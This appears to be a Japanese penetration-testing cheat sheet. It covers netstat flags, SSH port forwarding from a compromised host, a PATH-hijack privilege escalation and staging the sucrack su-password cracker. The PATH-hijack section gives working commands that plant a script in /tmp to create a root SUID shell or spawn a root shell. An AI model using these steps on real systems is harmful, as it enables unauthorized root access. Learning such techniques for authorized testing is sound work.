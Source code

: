 | オプション | 説明                      |
| ----- | ----------------------- |
| -a    | すべてのリスニングポートと確立済の接続を表示  |
| -t    | 表示する情報をTCPプロトコル関連のものに限定 |
| -u    | 表示する情報をUDPプロトコル関連のものに限定 |
| -l    | リスニングモードのポートを表示         |
| -s    | 各プロトコルの状態を表示            |
| -p    | PIDとプログラム名を表示           |
| -i    | インターフェースの情報を表示          |
| -n    | 名前解決を行わない               |
| -o    | タイマーを表示                 |

ブラウザ上で確認できる開放ポートがある場合はローカルからポートフォワードして確認してみる。sshが利用できない場合はchiselも有効。
```bash
ssh -L TARGET_PORT:127.0.0.1:ARBITRARY_PORT TARGET_NAME@TARGET_IP
```
フォワードしたポートにローカルのブラウザからアクセスできない場合はローカルの `/etc/hosts`に `127.0.0.1`とホスト名を対応付ける設定を追加。
簡単に開放ポートの内容を知りたいだけの場合は侵入先でlocalhostとポートを指定してcurlを実行。
DB関連のポートの場合は侵入先でDBのコマンドを実行して接続してみる。
# Path hijack
root権限で実行できるコマンドがある場合、あるいは一般ユーザがrootのSUIDを用いてroot権限で実行できるバイナリやシェルスクリプトの中でコマンドがフルパスではなくコマンド名だけで呼び出されている場合に有効。
環境変数 `$PATH` にはコマンドの保存されているパスがいくつか入っていて、コマンドが実行されると `$PATH` に記述されているコロンで区切られたディレクトリの左から順にコマンドを探す。`
```bash
/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
書込み可能なディレクトリパスが `$PATH` 内に指定されている場合はそこに任意のスクリプトを配置することができる。
書込み可能なディレクトリは以下のコマンドなどで検索する。
```bash
find / -writable 2>/dev/null
```
`$PATH` で指定されるディレクトリの多くは `usr` 配下だが、これは書き込み不可能なので書込み可能なことが多い。 `/tmp` を `$PATH` に追加するのが有効。
```bash
export PATH=/tmp:$PATH
```
`/tmp` 内にroot権限で実行できるコマンドと同名のスクリプトを配置する。
スクリプトの内容の一例としては、bashをコピーしてrootのSUIDをセットするものがある。
```sh
#!/bin/sh
cp /bin/sh /tmp/sh; chown root:root /tmp/sh; chmod 4777 /tmp/sh
```
またはシンプルにシェルを起動するコマンド。
```sh
#!/bin/sh
/bin/sh
```
ちなみに `bash`だと環境やランタイム保護の影響でroot権限での実行が拒否される場合があるので `sh`の方が無難。
# sucrack
suコマンドでユーザを切り替える際にパスワードクラックを行うツール。
[https://github.com/hemp3l/sucrack](https://github.com/hemp3l/sucrack)
## 導入手順
ローカルにリポジトリをクローンして圧縮。
```bash
git clone <https://github.com/hemp3l/sucrack>
rm -rf sucrack/.git/
zip sucrack.zip -r sucrack/
```